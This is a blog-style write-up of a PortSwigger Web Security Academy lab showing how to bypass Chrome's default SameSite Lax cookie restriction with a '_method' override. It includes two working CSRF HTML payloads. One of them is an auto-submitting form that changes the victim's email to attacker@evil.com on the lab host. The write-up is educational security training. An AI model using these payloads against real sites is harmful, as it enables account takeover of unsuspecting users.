 # SameSite Lax bypass via method override | Jan 13, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override), you'll learn: SameSite Lax bypass via method override! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

> Note:
> The default [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171113.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171131.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171238.png)

**When we successfully logged in, it'll set a new session cookie for us:**
```
Set-Cookie: session=rIvG2u8btj2TaB0q6tdZptKTItB5d0is; Expires=Sat, 14 Jan 2023 09:11:15 UTC; Secure; HttpOnly
```

However, **it doesn't have a `SameSite` attribute.**

In the lab's background, it said:

> ... The victim uses Chrome.

In Chrome, **it'll automatically apply `Lax` restrictions by default**. This means that the cookie is only sent in cross-site requests that meet specific criteria, even though the developers never configured this behavior.

**Also, let's view the source page in `/my-account`:**
```html
<h1>My Account</h1>
<div id=account-content>
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <button class='button' type='submit'> Update email </button>
    </form>
</div>
```

As you can see, **the form doesn't include a CSRF token**, which helps to prevent CSRF (Cross-Site Request Forgery) attack.

Now, we can try to update our email address:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171659.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171714.png)

When we clicked the "Update email" button, **it'll send a POST request to `/my-account/change-email`, with parameter `email`.**

In order to perform CSRF attack, we need dig deeper about `Lax` SameSite restriction.

- `Lax` SameSite restriction:

**Browsers will send the cookie in cross-site requests, but only if both of the following conditions are met:**

1. The request uses the GET method.
2. The request resulted from a top-level navigation by the user, such as clicking on a link.

This means that the cookie is not included in cross-site POST requests, for example. As POST requests are generally used to perform actions that modify data or state (at least according to best practice), they are much more likely to be the target of CSRF attacks.

Likewise, the cookie is not included in background requests, such as those initiated by scripts, iframes, or references to images and other resources.

**Armed with above information, we can craft our CSRF payload:**
```html
<html>
    <head>
        <title>CSRF-7</title>
    </head>
    <body>
        <script type="text/javascript">
            document.location = 'https://0a9e00e10408d338c1928be6001f00ff.web-security-academy.net/my-account/change-email?email=attacker@evil.com';
        </script>
    </body>
</html>
```

This HTML payload will redirect to `/my-account/change-email` upon visit, which the browser will send a GET request to that endpoint, with parameter `email`. This could happen because servers aren't always fussy about whether they receive a GET or POST request to a given endpoint, even those that are expecting a form submission.

**Then, go to the exploit server to host the payload, and test it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113172742.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113172752.png)

Hmm... `"Method Not Allowed"`.

Now, even if an ordinary GET request isn't allowed, **some frameworks provide ways of overriding the method specified in the request line**. For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes:

```html
<html>
    <head>
        <title>CSRF-7</title>
    </head>
    <body>
        <form action="https://0a9e00e10408d338c1928be6001f00ff.web-security-academy.net/my-account/change-email" method="GET">
            <input type="hidden" name="_method" value="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>
        <script>
            document.getElementsByTagName('form')[0].submit();
        </script>
    </body>
</html>
```

This will the form will still send a GET request to `/my-account/change-email`, however the `_method` parameter will override the method to POST request.

> Note: The JavaScript is to automatically submit the form.

**Let's host the payload and test it again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113173725.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113173735.png)

It worked!

**Let's send the payload to victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113173759.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113173805.png)

Nice!

# What we've learned:

1. SameSite Lax bypass via method override